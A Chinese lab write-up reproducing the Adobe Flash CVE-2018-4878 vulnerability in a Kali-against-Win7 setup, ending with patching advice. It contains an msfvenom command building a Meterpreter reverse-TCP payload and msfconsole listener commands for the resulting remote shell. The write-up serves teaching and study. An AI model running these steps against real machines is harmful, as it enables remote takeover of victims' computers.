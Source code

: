 # [漏洞复现] CVE-2018-4878 Flash 0day

## 一、漏洞概述

2018年2月1号，Adobe官方发布安全通报（APSA18-01），声明Adobe Flash 28.0.0.137及其之前的版本，存在高危漏洞（**CVE-2018-4878**）。

攻击者通过构造特殊的Flash链接，当用户用浏览器/邮件/Office访问此Flash链接时，会被**“远程代码执行”**，并且直接被getshell。

直到2018年2月5号，Adboe才发布补丁来修复此0 day漏洞。

![1563377297005](images/1563377297005.png)

互联网上出现的基于此Flash 0day漏洞进行攻击的样本，其实在2017年底就已经由韩国计算机应急小组（**KR-CERT**）首次发现。

CVE-2018-4878与2017年10月发现的0Day 漏洞CVE-2017-11292一样，都位于Flash的com.adobe.tvsdk包中。CVE-2018-4878是一个UAF漏洞，需要借助强制GC或者刷新页面来触发该漏洞。

目前，全网已经有比较成熟的针对此Flash漏洞的利用代码，接下来，实验将复现整个过程。

## 二、实验环境

- **渗透机**：Kali 
  - ip：==192.168.0.91==
  - 版本：kali-linux-2019.2-amd64.iso
- **靶机**：Win7
  - ip：==192.168.0.131==
  - 版本：windows_7_ultimate_x64.iso
- **exp**：cve-2018-4878.py （代码见于附件）
- **flash**：flashplayer_activex_28.0.0.137.exe

## 三、实验过程

#### 1.使用msfvenom生成shell代码

- 生成代码，其中lhost为kali的ip地址，lport为自定义的端口号

```msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.91 lport=8888  -f  python>shellcode.txt ```

![1563378113480](images/1563378113480.png)

- 查看代码文件

![1563378177938](images/1563378177938.png)

#### 2. 将上述shellcode代码写入```CVE-2018-4878.py```文件

![1563378468780](images/1563378468780.png)



#### 3. python执行```CVE-2018-4878.py```文件

![1563378571357](images/1563378571357.png)

#### 4. Kali Linux开启Apache2服务，并将上面的2个文件放入/var/www/html目录中（apache web路径）

![1563378612778](images/1563378612778.png)

- 此时，Kali Linux上Web服务启动，并且具备```index2.html```这个页面。只要靶机启用flash并访问了这个页面，则可以直接被控制。

#### 5.Kali Linux开启Shell会话监听

```bash
#msfconsole启动
msfconsole
#使用handler监听模块  
msf > use exploit/multi/handler 
#回弹一个tcp连接  
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
#设置kali渗透机的ip地址  
msf exploit(handler) > set lhost 192.168.0.91 
#设置监听端口，这个需跟上面msfvenom设置的端口一致  
msf exploit(handler) > set lport 8888 
#开启监听，等待靶机上线 
msf exploit(handler) > exploit
```

![1563378872829](images/1563378872829.png)

#### 6.Windows7 安装flash插件，并用IE浏览器访问页面

- 安装flash

![1563378951336](images/1563378951336.png)

- IE访问``` 192.168.0.91/index2.html```

![1563378977631](images/1563378977631.png)

#### 7. Kali Linux 上获取meterpreter shell，并进行管理

![1563379396372](images/1563379396372.png)

![1563379468038](images/1563379468038.png)

![1563379542338](images/1563379542338.png)

![1563379597190](images/1563379597190.png)

- 实验至此完成

## 四、实验总结

可以看到，最终由于Flash存在CVE-2018-4878这个高危漏洞，导致Windows靶机访问含flash的页面时，直接被Kali Linux控制。真实环境下，很多黑客基于此Flash漏洞，结合社会工程学，例如将网页链接放置在诱导邮件中，欺骗大量用户点击，来达到最规模攻击效果。



## 五、漏洞修复

1. 直接到Adobe Flash官网，下载最新版本：[https://get.adobe.com/cn/flashplayer/](https://link.zhihu.com/?target=https%3A//get.adobe.com/cn/flashplayer/) 
2. 安装常见杀毒软件，开启实时防护和杀毒引擎实时升级。





